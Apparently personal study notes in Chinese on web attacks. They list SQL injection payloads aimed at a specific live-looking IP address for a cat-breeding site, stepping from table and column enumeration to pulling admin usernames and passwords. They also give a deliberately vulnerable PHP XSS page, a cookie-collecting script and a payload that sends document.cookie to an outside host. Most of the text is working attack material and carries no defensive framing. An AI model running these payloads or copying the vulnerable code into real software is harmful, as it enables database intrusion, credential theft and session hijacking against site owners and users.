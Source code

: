 


###  2020年11月25日

-----------------------------------------------------------------

doney_dongxiang
NyLiaVLBCgLk8qg





[宠物猫 异国短毛猫 纯种猫 加菲猫 波斯猫 辛巴猫舍 纯种双色/梵文波斯、异国小猫 CFA注册猫舍](http://59.63.200.79:8003/?id=1 and 1 = 2 order by 1)

 ?id=1 and 1=2 union select 1,database()
 ?id=1 and 1=2 union select 1,version()

http://59.63.200.79:8003/?id=1 and 1 = 2 order by 1

http://59.63.200.79:8003/?id=1 and substr(database(),1,1) ='x'

?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1

 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 0,1
 
 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 1,1
 
 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 2,1
 
 ?id=1 and 1=2 union select 1,username from admin  limit 0,1
 
  ?id=1 and 1=2 union select 1,password from admin  limit 1,1 



###  2020年11月10日

-----------------------------------------------------------------

<?php  
session_start();  
?>  

<!doctype html>  
<html>  
    <head>  
        <title>XSS demo</title>  
    </head>  
    <body>  
    <form>  
    <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />  
            <input type="submit" value="Submit" />  
        </form>  
    </body>  
</html>  



<?php  
$victim = 'XXS得到的 cookie:'. $_SERVER['REMOTE_ADDR']. ':' .$_GET['cookie'];  
file_put_contents('xss_victim.txt', $victim);  



XSS注入代码

"/> <script>window.open("http://172.16.2.192/xss_hacker.php?cookie="+document.cookie);</script><!--  
